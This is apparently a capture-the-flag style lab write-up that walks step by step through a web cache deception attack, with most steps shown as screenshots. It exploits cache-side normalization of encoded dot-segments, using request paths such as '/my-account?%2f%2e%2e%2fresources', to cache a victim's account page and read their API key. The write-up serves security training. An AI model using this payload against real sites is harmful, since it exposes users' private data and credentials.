# Lab 4 — Exploiting cache server normalization for web cache deception

> [← Back to Web Cache Deception](../README.md)

---

## 🎯 Objective
The **cache server** (not the origin) normalizes encoded dot-segments. Exploit this to poison the cache with Carlos's account data.

---

## 🪜 Steps

### Step 1 — Login (wiener:peter)



---

### Step 2 — Send to Repeater


---

### Step 3 — Test path handling (404s)



---

### Step 4 — Find delimiter via Intruder
`?` returns **200 OK**.




---

### Step 5 — Confirm delimiter path
`GET /my-account?abc.js` → **200 OK**



---

### Step 6 — Test normalization (origin returns 404)
`GET /aaa/..%2fmy-account` → **404** — origin does NOT normalize. Cache does.



---

### Step 7 — Cache stores /resources/ paths
- 1st → miss

- 2nd → hit ✅


---

### Step 8 — Add encoded dot-segment after /resources
`GET /resources/..%2fmy-account`
- 1st → miss

- 2nd → **hit** ✅


---

### Step 9 — Craft the exploit path
`/my-account?%2f%2e%2e%2fresources`



---

### Step 10 — Deliver exploit to victim



---

### Step 11 — Get Carlos's API key



---

## ✅ Result
Lab solved!

---

## 💡 Key Takeaway
Cache-side normalization allows attackers to poison the cache with sensitive content under static-looking paths.
